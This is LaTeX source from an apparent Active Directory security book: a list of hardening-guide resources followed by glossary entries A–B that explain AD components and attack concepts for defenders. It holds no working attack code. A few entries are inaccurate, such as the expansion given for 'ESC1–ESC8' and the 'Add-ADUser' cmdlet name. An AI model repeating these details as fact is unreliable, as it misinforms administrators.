In essence, horizontal movement is about moving sideways within the network at a similar privilege level, while vertical movement is about moving upwards, gaining higher levels of access or control. Both are crucial stages in sophisticated cyberattacks and highlight the importance of layered security controlled approaches, detection strategies, situational and operational awareness, and incident response measures.










\chapter{Security Hardening Guides and Best Practices}

\section{Hardening Guide Collection}

\subsubsection{1. CIS Benchmarks}
Community-developed, consensus-based security configuration guides for 100 technologies-operating systems, cloud, network devices, databases, and more-often used as de facto industry standards. Access requires registration for downloads via their WorkBench portal.
\textit{URL: https://www.cisecurity.org/cis-benchmarks}  

\subsubsection{2. ANSSI Best Practices}
Guidelines published by ANSSI, the French National Cybersecurity Agency, offering security-hardening recommendations, such as \textit{"Best Current Practices for Acquiring and Using Domain Names"} and other architectural and administrative guidance.
\textit{\textbf{URL:} https://www.ssi.gouv.fr/en/ }
\textbf{NOTE:} This ANSSI site provides best practice documents and guidance in English.

\subsubsection{3. National Security Agency (NSA) Cybersecurity Advisories \& Guidance}
Another tool repository belonging to the NSAs central hub provides publicly available resources such as cybersecurity advisories, information sheets, technical guidance and frameworks that aid in the hardening of systems and networks so that defenders can better protect them against future cyberattacks.
\textit{\textbf{URL}:https://www.nsa.gov/press-room/cybersecurity-advisories-guidance/  }

\subsubsection{3. National Security Agency (NSA) Cybersecurity Resources for Cybersecurity Professionals \& NSA Cybersecurity Publications}
A broader NSA repository of cybersecurity-related materials that include guides, info sheets, infographics, and archives, targeted at cybersecurity professionals. Many publications are listed and accessible via the \textit{Resources for Cybersecurity Professionals} page.
\textit{URL: https://nsacyber.github.io/publications.html}  

\subsubsection{4. US Department of Defense (DoD) Security Technical Implementation Guides (STIGs) \& Security Readiness Guides (SRGs)}
Part of the United States Cyber Command Division (USCYBERCOMMAND), DoD DISA publishes Security Technical Implementation Guides (STIGs) and Security Readiness / Requirements Guides (SRGs). Not only do these guides harden military and government-owned or leased systems, but they are made publicly available for civilians seeking guidance to better harden their assets by using these industry-accepted processes and specifications.
\textit{\textbf{URL:} https://public.cyber.mil/stigs/} 

OpenSCAP Security Policies
%%%%%%%%%%%%%%%%%%%%%%acronym.tex%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% sample list of acronyms
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer %%%%%%%%%%%%%%%%%%%%%%%%%%

\Extrachap{Glossary}


Use template \emph{glossary.tex} together with the Springer document class SVMono (monograph-type books) or SVMult (edited books) to style your glossary\index{glossary} in the Springer layout.

\section*{A}
\runinhead{Access Control} A foundational security concept that ensures that only authorized individuals or systems can access specific resources within a computing environment. Access control mechanisms include physical controls (e.g. biometric scanners), logical controls (e.g. passwords), and administrative controls (e.g., policies). It is commonly enforced in networks and applications using models such as DAC, MAC, or RBAC.

\runinhead{Access Control Entry (ACE)} An Access Control Entry (ACE) is an individual permission record within an Access Control List (ACL). Each ACE defines which users, groups, or processes have rights, such as reading, writing, or modifying, on an object. In Active Directory, ACEs regulate access to directory objects such as users, groups, organizational units (OUs), and domain controllers. Misconfigured or maliciously altered ACEs can grant attackers hidden or excessive permissions, allowing persistence, privilege escalation, or covert control of critical AD assets. Regular audit of ACE configurations is essential to maintain security.
\textit{See also: access control list (ACL)}

\runinhead{Access Control List (ACL)} An access control list (ACL) is a list of access control entries (ACEs) that apply to an AD object (e.g., a user, group, or computer object). Each ACE in an ACL identifies a trustee and specifies the access rights allowed, denied, or audited for that trustee. Incorrectly configured ALCs can lead to unauthorized access or data exposure. Unexpected or unusual modifications to ACLs can indicate potential security incidents or unauthorized attempts to gain elevated permissions within the AD infrastructure. Monitoring anomalous ACL changes, detecting and investigating them is crucial for maintaining a secure AD environment.
\textit{See also: Access Control Entry (ACE)}

\runinhead{Access Control List (ACL) Persistence Attack} An Access Control List (ACL) Persistence Attack is a technique by which attackers modify the permissions on Active Directory objects to maintain long-term stealthy access. ACLs define which users or groups can perform actions, such as read, write, or modify, on AD objects like users, groups, or organizational units. The thought process behind this attack is that, by granting themselves hidden or excessive permissions (e.g., through the \verb|WriteDacl| or \verb|GenericAll| rights), attackers can ensure continued control of AD resources even after passwords are reset or accounts are rotated. ACL persistence is difficult to detect because it exploits legitimate AD functionality rather than introducing malware, making regular auditing of AD permissions and monitoring for unusual changes essential defenses.

\runinhead{Access Token} An access token is a security object generated by Windows after a successful log-in that defines the user's identity and permissions. It contains Security Identifiers (SIDs) for the user, their groups, and assigned privileges, and it is attached to every process the user runs. The thought process behind access tokens is to ensure that Windows and Active Directory enforce access control consistently across all resources. In an Active Directory environment, attackers often target access tokens to impersonate users, escalate privileges, or move laterally through techniques like Pass-the-Token or token manipulation. Monitoring token usage and restricting privileged account access are key defenses against these attacks.

\runinhead{Access Token Manipulation} Access token manipulation is a post-exploitation technique in which attackers alter or forge access tokens to impersonate legitimate users or elevate privileges on a Windows system. Access tokens contain the Security Identifiers (SIDs) and permissions that determine what actions a user or process is allowed and authorized to perform. In an Active Directory environment, the manipulation of access tokens is to abuse legitimate AD credentials or processes to gain unauthorized access. Common methods include token impersonation, token duplication, and exploiting privileged services that can spawn processes with higher-level tokens.

\runinhead{Account Lockout Policy} The account lockout policy defines the conditions under which a user account is locked after multiple failed attempts to log in. It includes settings such as the lockout threshold, lockout duration, and reset counter. This policy helps protect against brute-force and password-guessing attacks but, if too strict, can be abused by attackers to trigger denial-of-service conditions against users. In Active Directory environments, account lockout policies are often enforced via Group Policy.

\runinhead{Active Directory (AD)} Active Directory (AD) is Microsoft’s directory service that provides centralized authentication, authorization, and management of users, groups, devices, and other resources in a Windows domain network. AD is a Tier 0 asset because it controls access to nearly all systems and data throughout the enterprise. Its compromise often results in full organizational control for attackers.

\runinhead{Active Directory Administrative Center (ADAC)} Active Directory Administrative Center (ADAC) is a Microsoft Management Console (MMC) tool that provides administrators with a modern interface to manage Active Directory objects. Built on PowerShell, ADAC allows tasks such as user account creation, group management, and fine-grained password policy administration. Because ADAC exposes powerful AD operations, compromised admin accounts using it can be leveraged for large-scale changes or privilege escalation.

\runinhead{Active Directory Application Mode (ADAM)} Active Directory Application Mode (ADAM) is a lightweight version of Active Directory designed for directory-enabled applications without requiring full AD domain services. Provides LDAP-based directory services for applications while remaining separate from the core AD domain. Today, ADAM has been largely replaced by Active Directory Lightweight Directory Services (AD LDS).
\textit{Succeeded by Active Directory Lightweight Directory Services (AD LDS)}

\runinhead{Active Directory Attack Lifecycle (AD Attack Lifecycle)} The AD attack lifecycle describes the typical stages that attackers follow when targeting Active Directory environments. It includes reconnaissance (mapping AD objects and trust relationships), initial access, credential theft (e.g., Kerberoasting or LSASS dumping), privilege escalation, lateral movement, persistence (such as ACL or DCShadow abuse) and finally domain dominance. Understanding this lifecycle helps defenders detect and disrupt attacks before the full compromise of AD.

\runinhead{Active Directory Backup (AD Backup)} An Active Directory backup is the process of creating and storing a copy of the AD database and the state of the system to ensure recovery in the event of corruption, ransomware, or accidental deletion of critical objects. AD backups typically include the NTDS.dit database, the SYSVOL folder, and the registry settings, all of which are necessary to restore domain controllers and directory services. In large enterprises, AD backups are essential for business continuity, as Active Directory underpins authentication and access for nearly every resource. Without a working backup, recovering from a compromise or failure can be impossible, which is why AD backups are considered a Tier 0 defense mechanism.
\textit{See also: System-State Restore}

\runinhead{Active Directory Canary (AD Canary) / Canaries)} An Active Directory canary is a decoy object, such as a fake user, group, or service principal, intentionally placed in the directory to detect suspicious activity. If an attacker queries, attempts authentication, or attempts to use the canary account, an alert is triggered, signaling that AD reconnaissance or exploitation is underway. Canaries are valuable for early detection because attackers often enumerate AD for accounts and permissions as one of their first steps. Since these accounts do not serve a legitimate function, any interaction with them is a strong indicator of malicious activity.

\runinhead{Active Directory Certificate Services (AD CS)} Active Directory Certificate Services (AD CS) is a Windows Server role that provides a Public Key Infrastructure (PKI) to issuing, managing, and re-voting digital certificates. These certificates are used for secure authentication, encryption, and digital signing in AD environments; however, when misconfigured, AD CS can be exploited through attacks such as ESC1–ESC8 (Enterprise Security Controls) to forge certificates and impersonate domain administrators. Because certificates can bypass password expiration policies and provide long-lived access, AD CS security is a major focus in modern AD hardening strategies.
\textit{See also: Public Key Infrastructure (PKI)}

\runinhead{Active Directory Disaster Recovery (AD DR)} Active Directory disaster recovery refers to strategies and processes used to restore AD services after catastrophic events such as hardware failures, ransomware attacks, or widespread corruption. Unlike object-level recovery, disaster recovery typically involves restoring entire domain controllers, forests, or replication topologies from backup. Since AD is a Tier 0 service that governs authentication and access throughout the enterprise, disaster recovery planning is critical. Enterprises must test recovery procedures regularly to ensure that forests and domains can be rebuilt quickly without leaving lingering backdoors.

\runinhead{Active Directory Domain Services (AD DS)} AD DS is the core directory service within Active Directory, responsible for storing and organizing information about users, groups, devices, and policies in a domain. Provides essential authentication and authorization services using Kerberos and LDAP, making it the foundation of access control in a Windows network. AD DS operates through a hierarchical structure of forests, domains, and organizational units (OUs). Compromise of AD DS means compromise of the entire identity infrastructure, making it one of the most valuable targets for attackers.

\runinhead{Active Directory Domain Services (AD DS) PowerShell Module}
The Active Directory Domain Services (ADDS) PowerShell module provides a collection of cmdlets that allow you to use PowerShell to manage and administer various aspects of AD, such as users, groups, computers, and organizational units.

\runinhead{Active Directory Federation Services (AD FS)} Active Directory Federation Services (AD FS) is a feature that extends authentication beyond a single domain or organization, enabling Single Sign-On (SSO) with external applications, cloud services, and business partners. Using AD credentials, AD FS provides seamless access across environments without requiring users to repeatedly authenticate. Although powerful for integration, AD FS can be abused by attackers who compromise it to forge authentication tokens (such as Golden SAML attacks), effectively granting domain- or enterprise-wide access. Securing AD FS is therefore critical for hybrid and federated environments.

\runinhead{Active Directory Forest Recovery (ADFR)} An Active Directory forest recovery is the most comprehensive form of AD restoration, involving rebuilding of an entire forest when it has been compromised or corrupted beyond repair. This process requires careful use of backups, authoritative restores, and reestablishing trust relationships between domains. Since the forest is the ultimate security boundary in AD, its compromise often equals a complete loss of organizational control. Forest recovery is considered one of the most challenging IT operations and should be regularly tested as part of AD disaster recovery planning.

\runinhead{Active Directory Hardening} Active Directory hardening is the process of applying best practices and security controls to reduce the attack surface and protect against AD exploitation. This includes enforcing the principle of least privilege, removing legacy authentication protocols, securing administrative accounts, implementing tiered administration, and allowing for monitoring for abnormal activity. Hardening AD is a continuous effort, as attackers frequently target misconfigurations, excessive permissions, and unmonitored objects to gain persistence and escalate privileges.

\runinhead{Active Directory Health Check} An AD health check is an assessment of the operational and security state of an Active Directory environment. It typically involves analyzing replication, DNS configuration, Group Policy application, privileged account usage, and security baselines. Health checks are valuable in identifying vulnerabilities, such as outdated protocols, excessive permissions, or replication errors that could be exploited by attackers. Regular health checks help organizations maintain AD reliability while closing security gaps.

\rininhead{Active Directory Lightweight Directory Services (AD LDS)} AD LDS is a lightweight, standalone directory service that provides LDAP capabilities without requiring a full AD DS deployment. It is often used for directory-enabled applications that need a flexible and isolated directory service separate from the core AD forest. Although AD LDS lacks features like Kerberos-based authentication and Group Policy, it still relies on secure design and configuration to prevent abuse, especially if connected to production AD environments.

\runinhead{Active Directory Migration Tool (ADMT)} The Active Directory Migration Tool (ADMT) is a Microsoft utility to migrate users, groups, and computers between AD domains or forests. It is often used during mergers, acquisitions, or consolidations to unify identity systems. While ADMT simplifies migration, poor planning or weak security during the process can create risks, such as duplicated permissions or lingering access paths that attackers might exploit.
\textit{See also: Active Directory Domain Services (AD DS)}

\runinhead{Active Directory Privilege Escalation (AD Privilege Escalation)} AD privilege escalation refers to the set of techniques that attackers use to gain higher levels of access in an AD environment, often moving from standard user accounts to domain administrator. Methods include Kerberoasting, abusing misconfigured ACLs, leveraging delegation, or exploiting vulnerable services such as AD CS. Privilege escalation is a central stage in the lifecycle of AD attacks, making its prevention and detection a key focus of security teams.

\runinhead{Active Directory Recovery (AD Recovery)} Active Directory recovery is the process of restoring AD services, objects, or configurations after corruption, deletion, or compromise. Unlike forest recovery, this can involve restoring individual objects from the AD Recycle Bin, performing an authoritative restore, or rebuilding specific domain controllers. Effective AD recovery strategies ensure that attackers cannot permanently cripple identity services.

 \runinhead{Active Directory Recycle Bin} The AD Recycle Bin is a feature that allows administrators to recover accidentally deleted objects, such as users, groups, and OUs, without restoring from a backup. Enabled in newer versions of Windows Server, it improves resilience by reducing downtime and administrative overhead in recovery scenarios.

 \runinhead{Active Directory Replication} Replication in AD is the process by which domain controllers synchronize directory data across a forest or a domain. Replication ensures the consistency, accuracy, and completeness of objects, such as users, groups, and policies. Attackers can exploit replication protocols in attacks such as DCSync, which allows them to request password hashes directly from domain controllers. Securing replication traffic and monitoring for anomalous replication requests are critical, yet proactive defenses.

 \runinhead{Active Directory Replication Status Tool (ADREPLSTATUS)} ADREPLSTATUS is a Microsoft tool that helps administrators monitor and troubleshoot replication between domain controllers. Highlights failures, inconsistencies, or delays in AD replication, which, if ignored, can lead to authentication problems and even security gaps. Attackers may take advantage of weak or broken replication to maintain persistence, making ADREPLSTATUS monitoring an important defensive practice.

\runinhead{Active Directory Rights Management Services (AD RMS)} AD RMS is a Windows Server role that provides information protection through encryption and usage policies applied to files, emails, and documents. It integrates with AD identities to enforce who can read, modify, print, or forward protected content. Although largely superseded by Azure Information Protection, AD RMS demonstrates how AD can extend beyond access control to data protection.

\runinhead{Active Directory Risk Assessment} An AD risk assessment evaluates the security posture of an Active Directory environment by analyzing configurations, permissions, account usage, and attack paths. Identifies weaknesses such as stale accounts, weak password policies, excessive group memberships, and misconfigurations that adversaries could exploit. Risk assessments are often the first step to harden AD.
\textit{See also: Active Directory Health Check, Compromise Indicators (IoC), Exposure Indicators (IoE)}

\runinhead{Active Directory Security} Because Active Directory is used to configure network access and permissions, it is a prime target for cyberattackers. Years of growth, mergers, etc. often result in sprawling 'configuration creep' and misconfigurations that leave AD open to attack. Closing security gaps in AD is, therefore, an important part of an organization’s overall cybersecurity strategy. 

\runinhead{Active Directory Security Assessment} An evaluation of the AD environment of an organization to help your organization identify, quantify, and reduce the risks affecting your AD. This analysis generates a list of issues to address and might also offer remediation guidance and best practices to improve the performance or security of the AD infrastructure.
\textit{See also: Active Directory Security Auditing}

\runinhead{Active Directory Security Auditing} The process of collecting data about AD objects and attributes and analyzing and reporting on those data to determine the general health of the directory, the adequacy of system controls, compliance with established security policy and procedures, any breaches in security services, and any changes indicated for countermeasures.

AD security auditing helps you detect and respond to insider threats, privilege misuse, and other indicators of exposure (IOEs) or indicators of compromise (IOCs), thereby strengthening your security posture.
\textit{See also: Active Directory Security Assessment}

\runinhead{Active Directory Service Interface (ADSI)} Active Directory Service Interfaces (ADSI) is a set of COM interfaces that is used to access the features of directory services from different network providers. ADSI is a programmatic interface to AD that enables developers to perform common tasks such as adding new users. Cybercriminals can use ADSI to manipulate directory entries.

\runinhead{Active Directory Service Interfaces Editor (ADSIEdit)} The Active Directory Service Interfaces Editor (ADSIEdit) Microsoft Management Console (MMC) snap-in acts as a low-level editor for Active Directory. ADSIEdit provides access to objects’ properties that are not exposed in other AD interfaces, offering a detailed view of every object and attribute in an AD forest.

\runinhead{Active Directory Sites and Services (AD SS)} Active Directory Sites and Services (ADSS) is a Microsoft Management Console (MMC) plug-in that is used to administer replication of directory data between all sites in an AD forest. Misconfigurations can affect AD performance and also cause replication of faulty security data.

\runinhead{Active Directory Trust (AD Trust)} Active Directory trusts (AD trusts) enable users in an AD domain to access resources in another AD domain. Carefully manage trust relationships to prevent unintended escalation of privileges or exposure of resources.

\runinhead{Active Directory Users and Computers (ADUC)} Active Directory Users and Computers (ADUC) is a Microsoft Management Console (MMC) plug-in that enables administrators to manage user accounts and various other objects in AD. Incorrect usage can lead to unintentional privilege assignments or data exposure.

\runinhead{Active Directory Vulnerability Assessment}
An evaluation of vulnerabilities in the Active Directory environment of your organization can help identify, quantify, and reduce the security and configuration risks to AD. Such analyses generate a list of issues to address and could also offer remediation guidance and best practices to improve the performance or security of the AD infrastructure.
\textit{See also: Active Directory Security Assessment}

\runinhead{Active Directory Web Services (ADWS)}
Active Directory Web Services (ADWS) is a web service hosted on domain controllers running Windows Server 2008 R2 and later. ADWS provides a protocol for accessing and managing directory services using the standard HTTP and HTTPS web protocols.

\runinhead{Active Reconnaissance} A type of information gathering activity in which the attacker (or ethical hacker) interacts directly with the target entity to identify vulnerabilities, open ports, active services and network topology. Unlike passive reconnaissance, this method is easily detectable through intrusion detection systems.

\runinhead{\texttt{Add-ADComputer}}
\texttt{Add-ADComputer} is a PowerShell cmdlet that can be used to create a new computer object in Active Directory. If misused, this cmdlet can lead to the creation of unauthorized computer accounts, potentially used for persistence or lateral movement.

\runinhead{\texttt{Add-ADComputerServiceAccount}}
\texttt{Add-ADComputerServiceAccount} is a PowerShell cmdlet that can be used to add a service account to a computer object in AD. An attacker who compromises this cmdlet can associate service accounts with unintended systems, potentially gaining unauthorized privileges.

\runinhead{\texttt{Add-ADGroupMember}}
\texttt{Add-ADGroupMember} is a PowerShell cmdlet that can be used to add one or more users, groups, service accounts, or computers to an AD group. The misuse of this cmdlet can lead to unauthorized privilege escalation.

\runinhead{\texttt{Add-ADPrincipalGroupMembership}}
\texttt{Add-ADPrincipalGroupMembership} is a PowerShell cmdlet that can be used to add a user, group, service account, or computer to one or more AD groups. If used maliciously, this cmdlet can grant an attacker access to resources.

\runinhead{\texttt{Add-ADUser}} \texttt{Add-ADUser} is a PowerShell cmdlet that can be used to create a new user object in Active Directory.

\runinhead{Address Resolution Protocol (ARP)} Address Resolution Protocol (ARP) is used to map an IP address to a physical (MAC) address on a local network. Although not specific to AD, spoofing ARP responses is a common attack vector in LAN environments.

\runinhead{ADExplorer} Part of the Microsoft Sysinternals Suite, ADExplorer is a legitimate tool that is used to view the Active Directory structure and objects and edit them. Attackers can use this tool to explore AD structures, analyze objects, permissions, and more.

\runinhead{\texttt{ADfind}} \texttt{ADfind} is a command line tool developed by Joe Richard (DS-MVP) to query Active Directory.

\runinhead{Administrative Privileges} These elevated permissions are granted to specific user accounts or roles within the Active Directory environment, enabling them to perform administrative tasks and manage critical resources. Improper management of administrative privileges can lead to unauthorized access and privilege escalation attacks. For example, the SolarWinds attack involved exploiting administrative accounts to move laterally across networks.

\runinhead{Administrative Tiering}
Administrative tiering helps an organization better secure its digital environment by defining three or more layers of access to resources and systems. This layering creates buffer zones that separate the administration of high-risk or valuable assets such as Active Directory domain controllers.

\runinhead{AdminSDHolder} AdminSDHolder is an Active Directory object that holds the security descriptor for objects that are members of privileged groups. The SDProp process ensures that protected objects’ access control lists (ACL) are always consistent with the AdminSDHolder object. A compromised AdminSDHolder object can lead to an SDProp attack.

\runinhead{\texttt{Adprep}} \texttt{Adprep} is a command line tool that is used to prepare a forest or domain for a Windows Server upgrade. Adprep performs necessary schema and infrastructure updates to support the newer version of Windows Server.

\runinhead{\texttt{ADRecon}} \texttt{ADRecon} is a tool that collects information about AD and generates a report that can provide a holistic picture of the current state of the target AD environment. Cybercriminals can use ADRecon for reconnaissance to identify potential vulnerabilities.

\runinhead{Advanced Group Policy Management (AGPM)} Advanced Group Policy Management (AGPM), a feature of Microsoft Desktop Optimization Pack (MDOP), enables improved control and management of Group Policy Objects (GPO). AGPM includes capabilities for version tracking, role-based delegation, and change approval.

\runinhead{Advanced Intrusion Detection Environment (AIDE)} A host-based intrusion detection system that creates a cryptographic baseline of files and directories and periodically checks for unauthorized changes. Often used to ensure file system integrity in Linux or UNIX systems.

\runinhead{Advanced Persistent Threat (APT)} A long-term, stealthy cyberattack campaign typically orchestrated by well-funded and skilled threat actors, often linked to nation states or organized groups. APTs aim to gain unauthorized access to systems and remain undetected for extended periods to steal and exfiltrate sensitive data, over-surveil, or disrupt operations.

\runinhead{Anonymous Logon} The Anonymous Logon security principle allows anonymous access to certain services on a machine. In the context of AD, Anonymous Logon represents connections from users that do not present a valid set of credentials. This can pose a security risk and is often limited or disabled.

\runinhead{Antivirus} Software designed to detect, block, and remove malicious code such as viruses, worms, trojans, and spyware. Modern antivirus solutions often include heuristic analysis, near-real-time protection, and behavior monitoring to detect both known and unknown threats.

\runinhead{Application Directory Partition} Active Directory uses an application directory partition to hold data specific to a certain application or service, such as DNS. If not properly secured, this partition can be exploited by malicious entities for persistence or data extraction.

\runinhead{Application Inventory} A thorough application inventory is a critical first step in ensuring a successful and seamless AD migration. A comprehensive inventory of all applications and services that are integrated with or dependent on the existing AD environment should detail the purpose, users, data flow, dependencies, and infrastructure requirements of each application. The inventory process can involve manual discovery, reviewing documentation, and using automated tools to identify AD-dependent applications and identify potential compatibility issues, integration challenges, and data migration requirements.

\runinhead{Application Layer} Layer 7 of the OSI reference model, responsible for providing services directly to the user or application, such as HTTP, SMTP, and DNS. Many cyberattacks, including SQL Injection (SQLi) and Cross-Site Scripting (XSS), occur at this layer.
\textit{See also: Open Systems Interconnection (OSI) Reference Model}

\runinhead{Application Programming Interface (API)} A set of defined methods and protocols that allow one software application to interact with another. APIs are widely used in web services, cloud platforms, and Active Directory integrations, but can also be abused by attackers if not properly secured.

\runinhead{Arbitrary Commands} Commands that an attacker or ethical hacker can execute on a system, often due to a vulnerability such as command injection or insecure input handling. "Arbitrary" implies that the attacker can run any command, not just a restricted set.

\runinhead{Artificial Intelligence (AI)} The field of computer science that aims to create machines capable of reasoning, learning, and problem-solving. In cybersecurity, AI is used in threat detection, behavioral analytics, and anomaly detection.

\runinhead{Asymmetric Encryption} A type of encryption that uses two mathematically related keys: a public key to encrypt the data and a private key to decrypt it. This method is based on technologies such as SSL/TLS and is used in secure communications, digital signatures, and key-exchange protocols.

\runinhead{Asset} Any component of an information system that has value and requires protection. Assets can include data, systems, software, networks, devices, and even personnel. Asset identification and classification are foundational steps in risk management.

\runinhead{Asset Discovery} The process of identifying and inventorying devices, systems, and applications within a network. This is a fundamental task in cybersecurity, as defenders cannot secure what they do not know exists. Attackers also conduct asset discovery during reconnaissance. Defenders perform asset discovery to obtain full visibility into the devices they are protecting on the network.

\runinhead{Attack Attribution} The process of identifying the entity responsible for a cyberattack, typically involving the analysis of technical indicators (e.g., IPs, malware signatures), behavioral patterns, and threat intelligence. Attribution can be difficult and often inconclusive without corroborating evidence.

\runinhead{Attack Chain} An attack chain is a step-by-step sequence of actions that an attacker follows to compromise, persist in, and potentially exfiltrate data from a target entity. Each phase of the chain represents a distinct stage in the lifecycle of an attack, from initial reconnaissance to achieving final objectives such as data pilfering, data siphoning, sabotage, or persistent control.

\runinhead{Attack Landscape} The overall view of an organization's types of threats, vulnerabilities, and potential attack vectors an organization or sector faces at any given time. This includes current trends in malware strains, APT groups, and evolving TTPs.
\textit{See also: Tactics, Techniques, and Procedures (TTPs)}

\runinhead{Attack Surface} The total set of points in a system or network where an unauthorized user could attempt to enter, extract, or manipulate data. This includes open ports, APIs, services, code paths, and human elements such as employees. Minimizing the attack surface is a key aspect of security hardening.

\runinhead{Attack Vector} A method or pathway through which an attacker gains unauthorized access to a system. Common attack vectors include phishing emails, vulnerable services, open ports, social engineering, and malicious downloads. Basically, an attack vector is a vulnerable entity that an attacker uses as a springboard to further venture into the network.

\runinhead{Attacker Resistance} A measure of how well a system or environment can prevent, detect, or respond to unauthorized intrusion attempts. High resistance from attackers involves layered defenses, hardened configurations, and real-time monitoring.

\runinhead{Attribute-Based Access Control (ABAC)} A flexible access control model that evaluates access requests based on attributes of the user, the resource, the action, and the environment. ABAC enables fine-grained and context-aware access decisions, which are particularly useful in dynamic or large-scale systems.

\runinhead{Attribute} Active Directory objects have attributes, which define the characteristics of the object (for example, user phone number, group name). Manipulating attributes can sometimes lead to unauthorized activities or information disclosure.

\runinhead{Audit Logs} Active Directory generates various audit logs that record activities and events related to authentication, authorization, access to directory services, and more. Properly configuring and analyzing these audit logs is essential to identify potential security breaches, policy violations, or misconfigurations. Regularly reviewing the audit logs can help identify suspicious behavior.

\runinhead{Audit Policy} Audit policies define the types of security events to be recorded in the security log on domain controllers and computers. A poor audit policy might fail to detect intrusion attempts or other malicious activities.

\runinhead{Audit Trails} Audit trails provide a chronological record of activities and events within the AD environment, allowing organizations to reconstruct and investigate security incidents, policy violations, or operational issues. Maintaining audit trails helps with forensic analysis and is a critical component of effective security monitoring and incident response.

\runinhead{Authentication} The authentication process validates the credentials of a person, a computer process, or a device. Active Directory authentication involves proving the identity of a user logging in to an AD environment, and, if compromised, can lead to unauthorized access.

\runinhead{Authoritative Restore} An authoritative restore updates existing domain controllers with restored data, which then replicates to all other DCs in a multi-DC environment.
\textit{See also: Nonauthoritative Restore}

\runinhead{Authentication Server (AS)} A component of the Kerberos authentication protocol, responsible for validating users and issuing a ticket grant Ticket (TGT). The AS resides within the Key Distribution Center (KDC) in an Active Directory environment.

\runinhead{Authorization} The authorization process, which determines the permissions and rights of an authenticated user, follows the authentication process. In AD, authorization is often managed through group memberships. Improper authorization configurations can lead to unauthorized access or privilege escalation.
\textit{See also: Authentication}

\runinhead{Automated Monitoring Tools} Due to the complexity and scale of modern AD environments, automated tools and solutions are invaluable for continuously monitoring, auditing, and reporting on security configurations, permissions, and potential vulnerabilities. Such tools can alert administrators to unusual activities and significantly enhance an organization’s ability to proactively identify and address security risks.

\runinhead{Auxiliary Class} The auxiliary class is an optional class in the AD schema that can be used to extend the attributes of other classes. Misconfiguration of auxiliary classes can lead to security vulnerabilities.

\runinhead{Availability} Availability is one of the three core security principles in the CIA triad-alongside confidentiality and integrity-and ensures that resources are accessible when needed. In an Active Directory context, availability is based on the resilience of domain controllers and the supporting network infrastructure.

\runinhead{Azure Active Directory (Azure AD, now Entra ID)} Microsoft Azure Active Directory (Azure AD or AAD, now renamed Entra ID) is the Microsoft cloud-based \textit{Identity and Access Management (IAM)} service. Azure AD helps organizations manage and secure access to applications, data and networks in both the cloud and on-premises. In the context of cybersecurity, cyberattackers often target Azure AD to gain unauthorized access or escalate privileges, using tactics such as password spray attacks, consent phishing, or exploiting misconfigurations in security policies and access controls; therefore, securing Azure AD is critical.

\runinhead{Azure Active Directory Join} Azure Active Directory join (Azure AD join) is a process that registers a device to a specific Azure AD tenant, allowing the device to be managed and secured through cloud-based policies and services.

\runinhead{Attack Pathway} An attack pathway is a conjoined series of compromised accounts and systems that an attacker follows to gain access to "crown jewel" assets, such as domain administrator accounts or domain controllers.

\runinhead{Attack Surface} The attack surface in cybersecurity is what constitutes the sum of all vulnerable points in an AD environment that an attacker can exploit, leverage or utilize to compromise the network.

\section*{B}
\runinhead{Bell-LaPadula Model} A security model that is focused on data confidentiality, not integrity. It enforces:
\begin{itemize}
    \item "No Read Up" (users cannot read data at higher classifications)
    \item "No Write Down" (users cannot write to lower classifications)
Commonly used in military and government data systems.

\end{itemize}

\runinhead{BloodHound} A popular tool used to visualize AD attack pathways by mapping relationships between users, computers, and groups, helping attackers find the shortest, most efficient route to high-valued targets.

\runinhead{Back Link Attribute} A back link attribute is a type of attribute in the schema of an Active Directory forest. This attribute is linked to a forward link attribute. Together, these are used to create and manage linked attributes.

\runinhead{BackSync} The BackSync process replicates objects and properties back to a global catalog server from a domain controller within the same domain.

\runinhead{Backup and Disaster Recovery Planning (BDRP)} Backup and disaster recovery planning is critical for business continuity and data integrity in the event of system failure, natural disaster, or other disruptive incidents such as a cyberattack. The process involves creating, documenting, and testing strategies and procedures for backing up essential data and restoring them quickly and efficiently after a failure.
\textit{See also: \texttt{NTDS.dit}; Recovery Time Objective (RTO); Recovery Point Objective (RPO)}

\runinhead{\texttt{BadPasswordTime}} The \texttt{BadPasswordTime} attribute of an AD user object records the time of the last bad logon attempt.

\runinhead{\texttt{BadPwdCount}} The \texttt{BadPwdCount} attribute of an AD user object tracks incorrect password attempts. This attribute can be monitored to detect potential brute-force attacks.

\runinhead{Bare Metal Recovery (BMR)} Bare metal recovery (BMR), also known as bare metal recovery, is a type of disaster recovery that restores a computer system to its original state, including the operating system, applications and data, on a new or wiped machine. It is called "bare metal" because it essentially reverts the system back to its foundational state before restoring the full system image. This method is particularly useful for recovering from catastrophic failures, hardware replacements, or situations where a system needs to be restored to a clean state. 
\textit{See also: Active Directory Backup}

\runinhead{Base Distinguished Name (Base DN)} An LDAP search begins with the base DN. This DN can be a potential starting point for an attacker with unauthorized access to explore the Active Directory structure.

\runinhead{Base64} Base64 is a binary-to-text encoding scheme. In the context of Active Directory, certain attributes, like userPhoto, are Base64 encoded.

\runinhead{Best Practice Analyzer (BPA)} Best Practice Analyzer (BPA) is a server management tool that is available in Windows Server. BPA can help an administrator reduce best-practice violations by scanning an AD DS role and reporting when a role is not in compliance with best practices.

\runinhead{Binary} A binary refers to an executable file containing low-level machine instructions (\texttt{0s \& 1s}) that a computer's processor can directly run. Binary file analysis is crucial for binary analysis, a practice used to identify vulnerabilities, detect malware, and understand the structure of programs without needing their original source code. This involves tools and techniques to dissect and model binary code to find malicious patterns or weaknesses that attackers might exploit.

\runinhead{Binary Large Object (BLOB)} A BLOB is a collection of binary data stored as a single entity in a database, including Active Directory. BLOBs are typically images, audio, or other multimedia objects, although sometimes binary executable code may also be stored as a BLOB.

\runinhead{Binding} In the context of Active Directory, binding is the process of setting up a connection to the directory service, which can then be used to carry out operations. If attackers can bind to your Active Directory, they can begin to execute queries and potentially make changes if permissions allow.

\runinhead{BitLocker} BitLocker is a full volume encryption feature included with Microsoft Windows versions from Windows Vista onward. BitLocker is designed to protect data by providing encryption for entire volumes. If an attacker gains physical access to a server, BitLocker can prevent unauthorized access to the data stored within.

\runinhead{BitLocker To Go} BitLocker To Go extends BitLocker data protection to removable drives, such as external hard drives and USB flash drives. These drives can be locked and unlocked only with a password, a smart card, or a recovery key.

